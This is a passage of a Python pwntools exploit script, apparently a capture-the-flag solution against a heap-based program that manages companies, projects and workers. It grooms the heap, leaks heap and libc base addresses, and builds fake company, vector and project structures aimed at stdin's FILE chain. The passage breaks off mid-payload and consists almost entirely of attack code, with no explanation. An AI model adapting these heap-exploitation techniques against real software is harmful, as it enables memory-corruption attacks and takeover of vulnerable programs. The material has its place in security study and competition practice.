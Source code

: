 ```python
add_project(b"grr", b"p0", 500)
add_project(b"grr", b"p1", 500)

for i in range(15):
    hire_worker(b"grr", b"p0", b"tom" + str(i).encode(), 0x30)

for i in range(2, 6):
    add_project(b"grr", b"p" + str(i).encode(), 500)

hire_worker(b"grr", b"p5", b"robot999", 0x30)

worker_info(b"john0")
p.recvuntil(b"Project name: ")
leak = p.recvline().strip()
print(leak)
heap_base = u64(leak[16:24]) - 0x13330
print(hex(heap_base))

fire_worker(b"robot999")
remove_project(b"grr", b"p5")

payload = flat(
    0x0, 0x0,
    heap_base + 0x163a0, 0x8, # use this as fake string for fake company
    0x0, 0x0,
    heap_base + 0x136c0, 0x0, 
)
print(hex(len(payload)))
p.sendline(payload)

# libc leak
p.sendline(b"a"*0x410)

worker_info(b"john0")
p.recvuntil(b"Company name: ")
libc_base = u64(p.recv(8)) - 0x203b20
print(hex(libc_base))

payload = flat(
    0x0, 0x0,
    0x0, 0x0, # use this as fake string for fake company
    0x0, 0x0,
    heap_base + 0x163c0, 0x0, 
)
print(hex(len(payload)))
p.sendline(payload)

payload = flat(
    0x0, 0x0,
    0x0, 0x0,

    # start of fake company
    0xdeadbeef, 0x8,
    0x0, 0x0,
    0x1337, 0x0,
    heap_base + 0x16450, heap_base + 0x16458, # fake vector
    heap_base + 0x16458, 0x0,

    # start of fake project
    heap_base + 0x16420, 0x2,
    0x6161, 0x0, # project name is aa
    # stdin->chain - 0x8 (because when appending it will be 0x8 ahead)
    0x0, libc_base + 0x203948, 
```
